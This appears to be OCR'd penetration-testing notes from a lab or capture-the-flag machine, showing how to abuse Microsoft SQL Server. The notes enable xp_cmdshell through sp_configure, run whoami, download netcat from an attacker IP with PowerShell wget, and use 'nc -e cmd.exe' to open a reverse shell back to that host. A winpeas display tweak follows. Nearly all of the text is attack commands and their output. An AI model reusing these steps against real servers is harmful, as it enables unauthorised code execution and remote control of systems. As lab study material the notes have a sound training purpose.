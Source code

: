 ```JavaScript
NULL                                                                                                                                                                                                                                                           
-------------------------------------------------------------------------------                                                                                                                                                                                
Administrator            DefaultAccount           Guest                                                                                                                                                                                                        
sql_svc                  WDAGUtilityAccount                                                                                                                                                                                                                    
The command completed successfully.                                                                                                                                                       
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

1> exec xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.180:80/nc64-32.exe -outfile nc64-32.exe"
2> go
1> exec xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc64-32.exe -e cmd.exe 10.10.14.180 9999"
2> go

```

```SQL
EXEC xp_cmdshell 'whoami'

```

how to open xp_cmdshell

```SQL
EXEC sp_configure 'show advanced options', 1; 
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

for winpeas better display

```SQL
 REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```
